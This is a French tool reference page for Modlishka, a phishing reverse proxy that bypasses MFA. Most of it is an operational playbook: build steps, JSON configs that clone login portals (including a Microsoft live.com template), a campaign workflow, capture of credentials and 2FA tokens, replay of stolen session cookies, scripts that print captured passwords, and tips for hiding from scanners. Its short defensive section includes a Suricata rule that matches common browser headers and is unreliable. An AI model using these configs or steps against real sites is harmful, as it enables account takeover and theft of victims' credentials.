

# Modlishka — Reverse proxy de phishing avec MFA bypass à grande échelle

> [!info] **En 1 phrase**
> Modlishka est un reverse proxy de phishing avancé qui réplique des sites entiers en temps réel (domaine, sous-domaines et API) pour voler identifiants et cookies de session, y compris face au 2FA.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | Modlishka |
| Description | Reverse proxy de phishing : réplication en temps réel d'un site (domaine, sous-domaines, API), capture de credentials, cookies et jetons 2FA, rejeu de sessions |
| Catégorie | Social Engineering & Phishing |
| Sous-catégorie | Phishing Proxy / AiTM (adversary-in-the-middle) |
| Type d'outil | Reverse proxy (binaire Go autonome) |
| Licence | GPLv3 |
| Open source / propriétaire | Open source |
| Langage(s) | Go |
| Développeur / organisation | Piotr Duszyński (drk1wi) |
| Dépôt officiel | https://github.com/drk1wi/Modlishka |
| Documentation officielle | https://drk1wi.github.io/Modlishka/ |
| Date de création | 2019 |
| État du projet | actif (sources sur master ; pas de release officielle versionnée) |
| Dernière version connue | master (compilation requise, Go 1.24+) |
| Systèmes compatibles | Linux, macOS, Windows (sources Go) ; déploiement conseillé sur VPS Linux |
| Dépendances | Go toolchain, certificats TLS, domaine dédié |

---

## Concept

Modlishka, développé par Piotr Duszyński, est un **reverse proxy dynamique** écrit en Go. À la différence des clones statiques, il **réécrit en vol** les URLs, les formulaires, les liens et les appels AJAX du site cible : chaque sous-domaine et chaque requête API du site légitime est reflétée sous le domaine contrôlé par l'attaquant. La victime voit une copie pixel-perfect du site réel et sa session entière est relayée, ce qui permet de capturer **identifiants, cookies de session et jetons 2FA** (SMS, TOTP, push) en temps réel.

Dans un engagement, Modlishka se place en phase d'**accès initial** (leurre + capture) : il complète des outils comme [[Outil - Evilginx2]] pour les scénarios où le site cible est volumineux (SSO, portails cloud) et où un clone statique ne suffirait pas. La **gestion des jetons** permet de conserver les sessions volées et de les **rejouer** depuis un autre client, validant la prise de session 2FA avant même la fin de la campagne. Son usage exige un cadrage par **autorisation écrite** et une analyse fine des logs JSON pour la restitution.



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| Reverse proxy de phishing | Relais qui se place entre la victime et le site réel et réécrit tout le trafic |
| Réécriture en vol | Substitution des URLs, liens, formulaires et appels AJAX de la cible sous le domaine contrôlé |
| `proxy_domain` | Domaine qui relaie la cible (pointe vers le serveur Modlishka) |
| `target` | Domaine réel à proxier |
| `rules` | Règles de réécriture (domaines à refléter, sous-domaines, wildcard) |
| `terminate_redirects` | Coupe les redirections qui échapperaient au proxy |
| `tracking_parameter` | Paramètre de session pour tracer chaque victime |
| `credentials_parameter` | Champs de formulaire dont les valeurs sont capturées |
| AiTM | Adversary-in-the-middle : l'attaquant se place au milieu et relaie la session complète |
| Rejeu de session | Utilisation d'un token/cookie volé depuis un autre client pour authentifier l'attaquant |
| `force_ssl` | Force le HTTPS et la réécriture SSL |

---

## Installation

### Depuis les sources (Go)

```bash
sudo apt install -y golang
git clone https://github.com/drk1wi/Modlishka.git
cd Modlishka
make
# ou build direct
go build -o modlishka .
sudo ./modlishka -config config.json
```

### Binaires précompilés

```bash
# Télécharger le binaire correspondant dans les Releases GitHub (si disponible)
wget https://github.com/drk1wi/Modlishka/releases/download/latest/modlishka-linux-amd64
chmod +x modlishka-linux-amd64
sudo ./modlishka-linux-amd64 -config config.json
```

### Vérification de la toolchain Go

```bash
go version
# Requis : Go 1.24+ pour la compilation depuis les sources
```

> [!warning] Prérequis & problèmes potentiels
> - Un **domaine dédié** et un certificat TLS valide (Let's Encrypt) sont indispensables — sans HTTPS, alerte navigateur et échec immédiat.
> - Les ports 443 (et 80 pour la redirection ACME) doivent être libres ; `sudo` pour les ports < 1024.
> - Sur des sites dynamiques volumineux, le proxy consomme beaucoup de ressources : prévoir un VPS dimensionné.

---

## Configuration

La configuration se fait entièrement dans un **fichier JSON** passé avec `-config`.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `proxy_domain` | Domaine qui relaie la cible | FQDN | Doit pointer vers le serveur | `"phishing.example.com"` |
| `listening_address` | Interface d'écoute | IP | Exposition du proxy | `"0.0.0.0"` |
| `listening_port` | Port d'écoute | port | HTTPS | `"443"` |
| `target` | Domaine réel à proxier | FQDN | Cible | `"accounts.example.com"` |
| `rules` | Domaines à réécrire | liste, wildcard | Étendue de la réplication | `"* accounts.example.com"` |
| `terminate_redirects` | Coupe les redirections externes | true/false | Contrôle du flux | `true` |
| `tracking_parameter` | Paramètre de session | chaîne | Tracage par victime | `"id"` |
| `credentials_parameter` | Champs à capturer | liste | Capture de formulaire | `"email,password"` |
| `force_ssl` | Force le HTTPS | true/false | Présentation du certificat | `true` |
| `user_agent_blacklist` | Exclusions de User-Agents | liste | Bots, scanners | `["Googlebot"]` |
| `ip_blacklist` | Exclusions d'IP | liste | Scanners, SOC | `["1.2.3.4"]` |
| `credentials_domains` | Domaines dont les credentials sont capturés | liste | Sous-domaines inclus | `["accounts.example.com"]` |
| `logging` | Log détaillé requêtes/réponses | true/false | Analyse post-campagne | `true` |

```json
{
  "proxy_domain": "phishing.example.com",
  "listening_address": "0.0.0.0",
  "listening_port": "443",
  "target": "accounts.example.com",
  "rules": "* accounts.example.com",
  "terminate_redirects": true,
  "tracking_parameter": "id",
  "credentials_parameter": "email,password",
  "force_ssl": true
}
```

---

## Architecture interne

Modlishka est un **binaire Go unique** qui agit comme reverse proxy HTTP(S) :

- **Moteur de réécriture** : analyse chaque réponse HTML/JS et substitue les URLs de la cible par celles du `proxy_domain` (liens, formulaires, assets, XHR/fetch, cookies).
- **Serveur TLS** : présente le certificat du `proxy_domain` sur le port configuré ; `force_ssl` redirige toute requête HTTP vers HTTPS.
- **Relay HTTP client** : se connecte au site réel en arrière-plan, suit cookies et sessions, applique `rules` et `terminate_redirects`.
- **Capture** : extrait les valeurs des champs listés dans `credentials_parameter` lors des POST, enregistre cookies et jetons (paramètres de session).
- **Logging JSON** : chaque requête/réponse significative est loguée sur la sortie standard (credentials, cookies, tokens, User-Agent, IP).
- **Filtres** : `user_agent_blacklist` et `ip_blacklist` excluent robots et scanners de la réplication (économie de ressources et furtivité).

Flux d'exécution : la victime résout le domaine contrôlé → TCP/TLS vers Modlishka → requête réécrite vers la cible → réponse cible réécrite et servie à la victime → les POST de formulaire sont capturés → cookies/tokens enregistrés pour rejeu.

---

## Commandes

### Commandes principales

```bash
# Lancer le proxy avec une configuration
sudo ./modlishka -config config.json
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `./modlishka -config config.json` | Démarre le proxy | Écoute sur 443, log des captures |
| `./modlishka -config config.json -o /tmp/log.json` | Log les captures dans un fichier | JSON persisté |
| `./modlishka -h` | Aide et paramètres | Liste des options |

### Commandes avancées

```bash
# Lancer en arrière-plan avec log dédié
sudo nohup ./modlishka -config config.json > /var/log/modlishka.json 2>&1 &

# Vérifier l'écoute
ss -tlnp | grep ':443'
```

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-config <fichier>` | Fichier de configuration JSON | `./modlishka -config config.json` | Basic |
| `-o <fichier>` | Fichier de sortie des logs | `./modlishka -config config.json -o /tmp/log.json` | Intermediate |
| `-h` | Aide | `./modlishka -h` | Basic |
| `listening_port` (config) | Port d'écoute TLS | `"443"` | Intermediate |
| `tracking_parameter` (config) | Paramètre de session | `"id"` | Intermediate |
| `credentials_parameter` (config) | Champs à capturer | `"email,password,otp"` | Advanced |

> [!tip] Options les plus utiles au quotidien
> `force_ssl: true` (HTTPS obligatoire), `terminate_redirects: true` (garder le flux dans le proxy), `tracking_parameter` (tracer chaque victime), `logging: true` (analyse complète).

---

## Exemples pratiques

### Beginner

```bash
# 1) Créer le domaine phishing.example.com pointant vers l'IP du serveur
# 2) Obtenir un certificat (certbot) pour phishing.example.com
# 3) Rédiger config.json minimal (proxy_domain, target, rules)
# 4) Lancer et tester
sudo ./modlishka -config config.json
curl -skI https://phishing.example.com/
```

### Intermediate

```bash
# Ajouter le traçage et la capture de credentials
# "tracking_parameter": "id", "credentials_parameter": "email,password"
# Puis vérifier un POST de test depuis la landing
```

### Advanced

```bash
# Exclure les scanners pour réduire la charge et la détection
# "ip_blacklist": ["10.0.0.1"], "user_agent_blacklist": ["Googlebot", "SemrushBot"]
```

### Expert

```bash
# Rejouer une session volée depuis un autre client
# Extraire le cookie/token du log JSON puis :
# curl -s -b "session=<token_capture>" https://phishing.example.com/account
```

---

## Workflow complet (scénario pas à pas)

1. **Étape 1 — Préparer le domaine** — créer un domaine contrôlé (ex : `phishing.example.com`) dont le DNS pointe vers l'IP du VPS.
2. **Étape 2 — Obtenir un certificat TLS** — `sudo certbot certonly --standalone -d phishing.example.com` ; activer `force_ssl: true`.
3. **Étape 3 — Rédiger la configuration** — `proxy_domain`, `target` (ex : `accounts.example.com`), `rules`, `credentials_parameter`.
   ```json
   {
     "proxy_domain": "phishing.example.com",
     "listening_address": "0.0.0.0",
     "listening_port": "443",
     "target": "accounts.example.com",
     "rules": "* accounts.example.com",
     "terminate_redirects": true,
     "force_ssl": true,
     "credentials_parameter": "email,password"
   }
   ```
4. **Étape 4 — Lancer Modlishka** — `sudo ./modlishka -config config.json`.
5. **Étape 5 — Vérifier la réplication** — `curl -skI https://phishing.example.com/` puis comparer visuellement avec le site réel.
6. **Étape 6 — Envoyer le leurre et collecter** — partager l'URL ; surveiller la sortie JSON pour credentials, cookies et jetons.
7. **Étape 7 — Rejouer et restituer** — rejouer la session la plus intéressante, extraire les données capturées, puis les purger après restitution.

---

## Scénarios avancés

### Scénario 1 : MFA bypass sur un portail d'entreprise

```json
{
  "proxy_domain": "login-secure.entreprise-phishing.com",
  "target": "login.corporate.com",
  "rules": "* login.corporate.com",
  "terminate_redirects": true,
  "tracking_parameter": "sess",
  "credentials_parameter": "username,password,otp",
  "force_ssl": true
}
```

La victime saisit identifiants **et** code 2FA ; le token est relayé puis capturé, la session peut être rejouée depuis un autre client.

### Scénario 2 : réplication multi-sous-domaines (O365, GitHub, LinkedIn)

```json
{
  "target": "login.live.com",
  "rules": "* *.live.com",
  "proxy_domain": "secure.azure-verif.example.com",
  "listening_port": "443",
  "force_ssl": true
}
```

### Scénario 3 : campagne ciblée avec exclusions de scanners

```json
{
  "proxy_domain": "id-verification.example.com",
  "target": "id.example.com",
  "rules": "* id.example.com",
  "terminate_redirects": true,
  "force_ssl": true,
  "user_agent_blacklist": ["Googlebot", "Bingbot", "SemrushBot"],
  "ip_blacklist": ["45.155.205.233"]
}
```

L'exclusion des bots réduit la charge et la visibilité avant la campagne.

### Scénario 4 : détection des sessions privilégiées par ingestion des logs

```bash
# Parser les logs JSON et alerter dès qu'une session privilégiée est capturée
tail -f /var/log/modlishka.json | jq -c 'select(.type == "credentials")'
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Initial Access | Réplication du site et envoi du leurre (T1566.002) |
| Credential Access | Capture de credentials, cookies et jetons (T1111) |
| Collection | Aggrégation JSON des sessions capturées |
| Persistence (démo) | Rejeu des tokens pour maintenir un accès le temps de la démo |
| Red team | Validation AiTM de la résistance au 2FA |
| Reporting | Restitution des preuves de session (logs JSON horodatés) |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Initial Access | Phishing: Spearphishing Link | T1566.002 | Lien vers le proxy répliquant le site | Analyse URL, sandbox | SPF/DKIM/DMARC, filtrage web |
| Credential Access | Multi-Factor Authentication Interception | T1111 | Rejeu du flux 2FA (SMS/TOTP/push) | Connexions simultanées anormales | FIDO2/WebAuthn |
| Credential Access | Steal Web Session Cookie | T1539 | Capture et rejeu des cookies de session | Détection de replay | Cookies HttpOnly, rotation |
| Credential Access | Adversary-in-the-Middle | T1557 | Relais du trafic entre victime et cible | Analyse du réseau (spoofing) | Chiffrement, EAP-TLS |
| Collection | Automated Collection | T1119 | Ingestion automatisée des logs JSON | Détection de scripts d'ingestion | Contrôle d'accès aux logs |

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Domaine proche du site officiel (typosquatting / homoglyphe) | Réplication sous un domaine contrôlé |
| Certificat émis pour un domaine non officiel | Chaîne de certificats à vérifier |
| Connexions à un portail depuis une géolocalisation anormale | Anomalie de login |
| Double prompt de connexion au même service | Indice de relais AiTM |
| Session active depuis un device/client inhabituel | Device fingerprinting |
| Trafic vers une IP cloud inattendue pendant les horaires de connexion | Alerte réseau |

### Règles de détection (Sigma / Suricata / YARA)

```yaml
# Sigma — connexions à des domaines de phishing par ressemblance
title: Potential Phishing Domain Access via Modlishka Proxy
id: a1b2c3d4-0002-4567-89ab-cdef01234567
status: experimental
logsource:
    category: dns
detection:
    selection:
        query|contains:
            - '-verif.example.com'
            - 'secure-azure'
    condition: selection
falsepositives:
    - Legitimate subdomains matching the pattern
level: high
```

```bash
# Suricata — détection d'un proxy de phishing (flux HTTP réécrit vers une cible)
alert tcp any any -> any 443 (msg:"ET PHISHING Modlishka proxy behavior"; \
  content:"|0d 0a|"; flow:established; content:"upgrade-insecure-requests"; \
  nocase; flowbits:set,et.modlishka; classtype:attempted-user; sid:20260006; rev:1;)
```

---

## Automatisation

```bash
# Bash — surveiller les captures en temps réel
tail -f /var/log/modlishka.json | jq -c 'select(.type == "credentials")'

# Alerter sur une session privilégiée
tail -f /var/log/modlishka.json | jq -c 'select(.type == "credentials" and (.data.password != null))'
```

```python
# Python — ingestion des logs Modlishka et extraction des sessions
import json, time

LOG = "/var/log/modlishka.json"
seen = set()
with open(LOG, "r") as f:
    f.seek(0, 2)
    while True:
        line = f.readline()
        if not line:
            time.sleep(1)
            continue
        try:
            ev = json.loads(line)
        except json.JSONDecodeError:
            continue
        if ev.get("type") == "credentials":
            key = (ev["data"].get("email"), ev["data"].get("password"))
            if key not in seen:
                seen.add(key)
                print("Capture :", key)
```

---

## Output et parsing

Modlishka sort ses captures sur **stdout** (JSON) ou dans le fichier passé avec `-o`. Chaque événement contient le type (credentials, cookie, token), l'horodatage, l'IP et les données capturées.

```bash
# Exemple de sortie (abrégée)
{"type":"credentials","timestamp":"2026-08-16T10:00:00Z","ip":"10.10.20.15","data":{"email":"jdoe@example.com","password":"Tartempion2024!"}}
```

```python
# Python — parser un export de sessions
import json
with open("/tmp/log.json", "r") as f:
    for line in f:
        ev = json.loads(line)
        if ev.get("type") == "credentials":
            print(ev["data"].get("email"), ev["data"].get("password"))
```

---

## Intégrations

- [[Tools| Outils]] global
- [[Outil - Evilginx2]] — alternative spécialisée dans le bypass 2FA (sessions réelles)
- [[Outil - GoPhish]] — envoi du leurre pointant vers le proxy Modlishka
- [[Outil - SET]] — vecteurs d'email alternatifs
- [[Outil - CredSniper]] / [[Outil - SocialFish]] — kits de phishing plus simples (one-page)
- [[Outil - BeEF]] — hook du navigateur si la victime reste sur le proxy
- [[Outil - Nmap]] — vérification de l'exposition 443 depuis l'extérieur

```text
Victime → Modlishka (443) → cible réelle → logs JSON → rejeu de session
```

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - Evilginx2]] | Bypass 2FA, sessions réelles, léger | Site répliqué de façon limitée | Red team MFA ciblé |
| [[Outil - GoPhish]] | Interface web, reporting | Clone statique | Sensibilisation |
| [[Outil - SET]] | Multi-vecteurs, intégré Metasploit | Clone statique, lourd | Multi-vecteurs |
| [[Outil - CredSniper]] | Rapide, simple | One-page uniquement | Démo |
| Evilginx / Muraena | Variantes de proxy AiTM | Config plus complexe | Variantes avancées |

---

## Performance

- Binaire Go unique, très performant pour le relais HTTP(S) ; les coûts montent avec la taille du site répliqué (assets, API).
- Sur les gros portails dynamiques, prévoir un VPS dimensionné (CPU/RAM/bande passante) et des `rules` ciblées.
- L'exclusion des bots (`user_agent_blacklist`, `ip_blacklist`) réduit nettement la charge.
- Le logging JSON complet peut saturer un disque sur une longue campagne : activer une rotation ou un pipe vers un ingester.

---

## Troubleshooting

### Common problems

#### Problème : erreur de certificat navigateur

- **Cause** : certificat invalide/absent pour le `proxy_domain`.
- **Solution** : obtenir un certificat Let's Encrypt valide et vérifier que le DNS pointe vers le serveur.
- **Vérification** : `curl -skI https://phishing.example.com/`.

#### Problème : la page affichée est cassée (CSS/JS manquants)

- **Cause** : règles de réécriture trop restrictives.
- **Solution** : élargir `rules` (wildcard) pour couvrir sous-domaines et CDN.
- **Vérification** : comparer visuellement avec la cible via un navigateur.

#### Problème : redirection vers le site réel

- **Cause** : `terminate_redirects` désactivé.
- **Solution** : activer `terminate_redirects: true` dans la config.
- **Vérification** : cliquer sur un lien et vérifier que l'on reste sur le proxy.

#### Problème : aucune capture de credentials

- **Cause** : champs non listés dans `credentials_parameter`.
- **Solution** : ajouter les noms exacts des champs (`username,password,otp`).
- **Vérification** : effectuer un POST de test et observer le log.

---

## Sécurité de l'outil

- **Certificat TLS** : indispensable et valide — une erreur de certificat révèle la fraude.
- **Domaine dédié** : ne pas réutiliser un domaine légitime d'engagement ; purger le domaine après la campagne.
- **Logs** : les captures contiennent des données sensibles — chiffrer le VPS, limiter l'accès, purger après restitution.
- **Exposition** : ne pas laisser le proxy accessible publiquement après la campagne.
- **Légal** : autorisation écrite, périmètre défini, exclusion des données personnelles superflues.
- **Rejeu de session** : à n'utiliser que dans le cadre autorisé ; les tokens expirent vite.

---

## Limitations

- Pas de release versionnée : la version dépend du commit `master`, compilation et tests requis.
- Très gourmand en ressources sur les portails dynamiques volumineux.
- Le rejeu de session dépend de la fraîcheur du token : les sessions expirent rapidement.
- Un **certificat valide** reste une exigence absolue (pas de bypass navigateur possible).
- Fonctionnalités avancées (multi-domaine, règles) demandent une connaissance fine du JSON de config.
- Le projet reste destiné à un usage de red team autorisé : une erreur de config peut exposer le serveur à des attaques (SSRF via la réécriture).

---

## Cheatsheet

```bash
# Compilation
git clone https://github.com/drk1wi/Modlishka.git && cd Modlishka && make

# Lancement
sudo ./modlishka -config config.json
sudo ./modlishka -config config.json -o /tmp/log.json

# Certificat Let's Encrypt
sudo certbot certonly --standalone -d phishing.example.com

# Vérifications
curl -skI https://phishing.example.com/
ss -tlnp | grep ':443'

# Suivi des captures
tail -f /tmp/log.json | jq -c 'select(.type == "credentials")'
```

```json
{
  "proxy_domain": "phishing.example.com",
  "listening_address": "0.0.0.0",
  "listening_port": "443",
  "target": "accounts.example.com",
  "rules": "* accounts.example.com",
  "terminate_redirects": true,
  "force_ssl": true,
  "credentials_parameter": "email,password",
  "tracking_parameter": "id"
}
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Répliquer un site entier via un reverse proxy pour capturer credentials, cookies et jetons 2FA |
| **Quand l'utiliser ?** | Tests AiTM, validation de la résistance au MFA sur des portails volumineux |
| **Commande principale** | `sudo ./modlishka -config config.json` |
| **Alternative principale** | [[Outil - Evilginx2]] (bypass 2FA léger) |
| **Concepts importants** | Reverse proxy, réécriture en vol, AiTM, token replay, rules |
| **Liens associés** | [[Outil - Evilginx2]] · [[Outil - GoPhish]] · [[Outil - SET]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| URL avec un domaine ressemblant mais non officiel | Sensibilisation, hover sur les liens |
| Certificat TLS émis pour un domaine non officiel | Vérifier l'émetteur et la chaîne de certificats |
| Sessions provenant d'une géolocalisation anormale | Détection d'anomalies de login et alerting |
| Connexions vers une IP cloud inattendue | EDR réseau, liste blanche IP internes |
| Doubles prompts de connexion au même service | MFA FIDO2/WebAuthn (résistant au proxy) |
| Session active depuis un device/client inhabituel | Device fingerprinting, détection de replay |

---

## Tips & Pièges

> [!tip] **Tips**
> - Utilisez `tracking_parameter` pour suivre précisément chaque victime et relier ses requêtes : indispensable pour analyser une campagne.
> - Configurez `ip_blacklist` et `user_agent_blacklist` pour exclure les scanners (Googlebot, Shodan) et éviter la détection précoce.
> - Testez la réécriture avec `curl -I https://phishing.example.com/` : vérifiez que la page cible s'affiche correctement avant la campagne.
> - Activez `terminate_redirects` pour que la victime reste sur le proxy pendant toute la session.

> [!warning] **Pièges**
> - Un **certificat SSL valide** est indispensable, sinon alerte navigateur et échec immédiat.
> - La réécriture des assets (CSS/JS/images) dépend des `rules` : une règle trop restrictive casse la mise en page et trahit la fraude.
> - Les **jetons de session expirent** : rejouez la session capturée dans la foulée.
> - Modlishka est très gourmand en ressources sur les gros sites dynamiques : prévoyez un serveur dimensionné.

---

## References

### Official

- Dépôt GitHub : https://github.com/drk1wi/Modlishka
- Documentation officielle : https://drk1wi.github.io/Modlishka/
- Profil du développeur : https://github.com/drk1wi

### Security references

- MITRE ATT&CK T1111 — Multi-Factor Authentication Interception : https://attack.mitre.org/techniques/T1111/
- MITRE ATT&CK T1557 — Adversary-in-the-Middle : https://attack.mitre.org/techniques/T1557/
- MITRE ATT&CK T1566.002 — Spearphishing Link : https://attack.mitre.org/techniques/T1566/002/
- OWASP — Phishing : https://owasp.org/www-community/attacks/Phishing

### Community

- Présentation et démonstrations : https://drk1wi.github.io/Modlishka/
- Discussions GitHub : https://github.com/drk1wi/Modlishka/issues

---

**Liens :** [[Tools| Outils]] · [[Outil - Evilginx2|Evilginx2]] · [[Outil - GoPhish|GoPhish]] · [[Outil - SET|SET]] · [[Outil - CredSniper|CredSniper]]
